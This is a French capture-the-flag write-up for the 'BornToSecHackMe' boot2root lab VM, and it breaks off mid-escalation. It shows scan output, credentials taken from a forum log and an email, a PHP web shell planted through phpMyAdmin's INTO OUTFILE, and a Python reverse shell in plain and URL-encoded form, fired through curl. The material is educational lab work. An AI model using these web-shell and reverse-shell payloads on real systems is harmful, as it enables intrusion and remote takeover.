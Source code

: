 Lorsque nous lancons la VM nous remarquons qu'aucune adresse IP nous est fournie.
Nous allons donc devoir scanner notre reseau pour voir les adresses utilisées.

```
nmap -sn 192.168.1.0/24
Nmap scan report for BornToSecHackMe (192.168.1.50)
nmap 192.168.1.50
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-09 14:57 CEST
Nmap scan report for BornToSecHackMe (192.168.1.50)
Host is up (0.00096s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 1 IP address (1 host up) scanned in 4.63 seconds
```
Nous voyons donc plusieurs ports ouverts pour cette adresse IP dont notamment les 80 et 443 qui correspondent au protocol http et https ainsi que le port 21 et 22 qui correspondent au ftp et ssh respectivement.

Dans Kali Linux nous avons deux outils utils pour la recherche de vulnerabilites web que nous avons deja utilisés pour Darkly :
Nikto qui est un outil pour scanner les vulnerabilites de serveur web
Dirb quiu va chercher les routes existantes ou cachées.
```
nikto -h https://192.168.1.50

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.50
+ Target Hostname:    192.168.1.50
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /CN=BornToSec
                   Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:   /CN=BornToSec
+ Start Time:         2021-08-09 09:06:32 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ The site uses SSL and Expect-CT header is not present.
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Hostname '192.168.1.50' does not match certificate's names: BornToSec
+ The Content-Encoding header is set to "deflate" this may mean that the server is vulnerable to the BREACH attack.
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.20
+ Cookie PHPSESSID created without the secure flag
+ Cookie PHPSESSID created without the httponly flag
+ Cookie mlf2_usersettings created without the secure flag
+ Cookie mlf2_usersettings created without the httponly flag
+ Cookie mlf2_last_visit created without the secure flag
+ Cookie mlf2_last_visit created without the httponly flag
+ OSVDB-3092: /forum/: This might be interesting...
+ Cookie SQMSESSID created without the secure flag
+ Cookie SQMSESSID created without the httponly flag
+ OSVDB-3093: /webmail/src/read_body.php: SquirrelMail found
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 47542, size: 5108, mtime: Tue Aug 28 06:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8876 requests: 0 error(s) and 24 item(s) reported on remote host
+ End Time:           2021-08-09 09:09:40 (GMT-4) (188 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Nous voyons ici plusieurs routes que nous allons explorer pour voir si nous trouvons quelque chose d'interessant. La premiere étant /forum/:

### Forum

![b2r_1](./photos/b2r_1.png)

En fouillant un peu dans la section 'Probleme login ?' nous trouvons quelque chose d'interessant : 
```
curl --insecure https://192.168.1.50/forum/index.php\?id\=6 | grep "invalid user"
Oct  5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2<br />
```
Grace a ce mot de passe nous pouvons nous connecter sur le forum avec le couple lmezard/!q\]Ej?*5K5cy*AJ

Nous pouvons recuperer alors l'adresse mail associé a cet identifiant : laurie@borntosec.net

### Webmail

Lorsque nous nous connectons, nous voyons la présence d'un mail DB access avec une pair root/Fg-'kKXBj87E:aJ$. 
```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```
Connectons nous alors a la db via phpmyadmin

### phpMyAdmin

Nous arrivons donc a nous connecter a la db en tant que root grace au mdp fourni sur la boite mail de lmezard.

La technique la plus repandue la est de creer une backdoor dans un repertoire existant pour apres en chargeant la page adequat pourvoir executer un shell sur notre terminal

```
dirb https://192.168.1.50/forum

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Aug  9 09:59:40 2021
URL_BASE: https://192.168.1.50/forum/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.1.50/forum/ ----
+ https://192.168.1.50/forum/backup (CODE:403|SIZE:293)
+ https://192.168.1.50/forum/config (CODE:403|SIZE:293)
==> DIRECTORY: https://192.168.1.50/forum/images/
==> DIRECTORY: https://192.168.1.50/forum/includes/
+ https://192.168.1.50/forum/index (CODE:200|SIZE:4935)
+ https://192.168.1.50/forum/index.php (CODE:200|SIZE:4935)
==> DIRECTORY: https://192.168.1.50/forum/js/
==> DIRECTORY: https://192.168.1.50/forum/lang/
==> DIRECTORY: https://192.168.1.50/forum/modules/
==> DIRECTORY: https://192.168.1.50/forum/templates_c/
==> DIRECTORY: https://192.168.1.50/forum/themes/
==> DIRECTORY: https://192.168.1.50/forum/update/
```
On va essayer de placer notre backdoor dans un de ces repertoires : /forum/templates_c apres avoir cree une nouvelle db que jai nommé b2r
```
select "<?php system($_GET['cmd']); ?>" into outfile "https://192.168.1.50/var/www/forum/templates_c/backdoor.php"
```

![b2r_2](./photos/b2r_2.png)

https://192.168.1.50/forum/templates_c/backdoor.php?cmd=whoami nous donne :
```
www-data
```
Notre backdoor fonctionne correctement.

Ce que nous devons faire maintenant est de trouver un reverse shell que nous pourrons executer pour pouvoir se connecter au serveur. En cherchant sur internet il y a des reverse shell deja tout prets, prenons celui en python :

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Pour pouvoir passer ce reverse shell a notre url il faudra l'encoder :
```
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.1.28%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27%0A
```
 On va attendre la connexion sur notre machine Kali (machine qui a l'adresse correspondante a celle rentrée dans le reverse shell)
 ```
 nc -l -p 1234
 ```
D'une autre machine ou directement depuis le browser rentrer le reverse shell encode apres le cmd :

```
curl --insecure https://192.168.1.50/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.1.28%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27%0A
```

Nous obtenons bien un nouveau prompt : 
```
$ whoami
www-data
$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

La premiere idée qui me vient est d'essayer de faire une injection dynamique de librairie des plus classiques comme pour le level13 de snowcrash.

Cependant apres avoir execute l'injection, nous avons bien les droits root mais impossible d'acceder au dossier /root ??

